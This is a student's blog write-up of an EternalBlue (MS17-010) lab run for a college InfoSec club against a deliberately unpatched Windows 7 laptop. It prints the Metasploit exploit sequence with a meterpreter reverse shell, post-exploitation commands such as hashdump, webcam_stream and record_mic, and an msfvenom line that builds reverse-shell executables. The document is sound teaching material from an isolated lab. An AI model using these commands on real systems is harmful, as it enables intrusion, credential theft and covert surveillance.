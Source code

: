 ```yaml
---
title: 🔐 BC InfoSec — Eternal Blue Demo
pubDate: "2025-06-08"
description: "Eternal Blue Demo"
category: general
image: "/images/eternalblue/cover.png"
alt: "Funky image of a cat"
tags: 
    - cve-2017-0144
    - eternalblue
    - windows-7
    - vulnerability-demo
---
```


### Preface

In April of 2025 I conducted a lab for members of the InfoSec Club at Bellevue College to attack a real laptop running an outdated and vulnerable version of Windows 7, specifically targeting the exploit EternalBlue.

Here are the behind the scenes details as to how I carried out the lab and the pitfalls I fell in along the way.

---

{{< Image src="/images/eternalblue/laptop.png" alt="The laptop that I eventually ended up using." width="600" height="400" >}}

The laptop that I eventually ended up using.

### Why Windows 7?

I chose Windows 7 because the EternalBlue exploit is easy to execute on real hardware and the vulnerable components are still accessible online. It’s also a memorable exploit from TryHackMe, and it's tied to the infamous WannaCry ransomware, making it perfect for showing students real-world implications.

{{< Image src="/images/eternalblue/iso.png" alt="One of the Windows 7 ISOs I found." width="600" height="400" >}}

One of the Windows 7 ISOs I found.

## USB 3.0 Installation Issues and Workarounds

My first attempt was on a Sony VAIO laptop with only USB 3.0 ports. Unfortunately, genuine Windows 7 SP1 ISOs don’t include USB 3.0 drivers, so installation couldn’t proceed. I could’ve burned the ISO to a CD-ROM, but instead I switched to a ThinkPad with USB 2.0 ports.

While digging around archive.org, I came across a Japanese ISO and a modified 32-bit version that supported USB 3.0, but EternalBlue is more stable on 64-bit versions, so I avoided those.

## Finding Safe Installation Media

I sourced my ISOs from [massgrave.dev](https://massgrave.dev/), which appeared to provide clean Windows 7 images. While I didn’t rigorously verify them, the lack of bundled activation scripts or extra drivers lent legitimacy. These weren't used for sensitive data, so the risk was acceptable for a contained lab setup.

{{< Image src="/images/eternalblue/motd.png" alt="MOTD of the Kali VM" width="600" height="400" >}}

MOTD of the Kali VM

## Kali Linux Setup for Students

I spun up one Kali VM on my Proxmox node with a limited "student" account. I restricted `sudo` access to just `nmap` and `metasploit` commands and added a custom ASCII art login banner by editing `/etc/motd`. I relied on students following the rules of engagement, trusting they wouldn't attack the Proxmox node or each other.

{{< Image src="/images/eternalblue/desktop.png" alt="Desktop of the vulnerable Windows 7 SP1 laptop." width="600" height="400" >}}

Desktop of the vulnerable Windows 7 SP1 laptop.

## Making Windows 7 Vulnerable

To ensure the exploit worked, I:

- Disabled Windows Firewall, Updates, and Defender.
- Created a persona named "Bobby Tables" with files, themes, and desktop widgets to make the machine look lived-in.

<!-- ![Image taken using meterpreter from the vulnerable laptop.](image%204.png) -->

{{< Image src="/images/eternalblue/meterpreterpic.png" alt="Image taken using meterpreter from the vulnerable laptop." width="600" height="400" >}}

Image taken using meterpreter from the vulnerable laptop.

## Exploiting with Metasploit and Meterpreter

The demo sequence:

```bash
nmap --top-ports 50 10.10.10.50
nmap -p 445 --open --script=smb-os-discovery 10.10.10.50
msfconsole
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.10.10.50
run
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.10.50
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.75
exploit
```

Once inside Meterpreter:

```bash
sysinfo
ipconfig
hashdump
ps
migrate [PID]
```

Fun commands:

- `webcam_stream`, `screenshare`, `record_mic`
- TTS: `execute -f powershell.exe -a "Add-Type...Speak('You have been hacked')"`
- Fake alerts: `execute -f mshta.exe -a "vbscript:msgbox(...)"`
- Open websites: `execute -f cmd.exe -a "/c start https://google.com"`

### Notes I prepared for the meeting:

[Notes for EternalBlue Demo](https://www.notion.so/Notes-for-EternalBlue-Demo-2071a2360ee380d3b52dcffbc877d5f3?pvs=21)

## Reverse Shell Access for Students

I used `msfvenom` to generate payloads with unique ports:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.75 LPORT=XXXX -f exe -o studentXXXX.exe
```

Students opened listeners using:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT XXXX
exploit -j
```

On the host, I executed the EXE manually. Once in students had to use `migrate PID` into the `explorer.exe` process to interact with the desktop environment.

## Travel Router Networking

I wired the Kali box and Windows 7 laptop to a travel router, which repeated school Wi-Fi and provided a private LAN. I used DHCP reservations to assign fixed IPs for the Kali VM and Windows machine, keeping command prep simple and avoiding IP conflicts.

## Teaching Aids

I created a slide deck that explained EternalBlue, the history of WannaCry, and basic steps for identifying and exploiting the vulnerability. I emphasized the dangers of RCE bugs and kept demo commands prepped for copy-pasting.

## What I’d Improve Next Time

- **Prep payloads**: Pre-generate `.exe` backdoors to save time.
- **Tighter environment control**: A student got RDP access and bypassed the setup.
- **More coverage**: I wanted to demo hash stealing and password cracking but ran into issues with `migrate` and process permissions.
- **EternalBlue quirk**: It works once per boot — if you mess up the first attempt, you'll need a reboot.

---

### Slides:

[EternalBlue Demo InfoSecClub.pdf](/public/files/EternalBlue_Demo_InfoSecClub.pdf)

### Recording:

[https://www.youtube.com/watch?v=9wS6HYpg0S0](https://www.youtube.com/watch?v=9wS6HYpg0S0)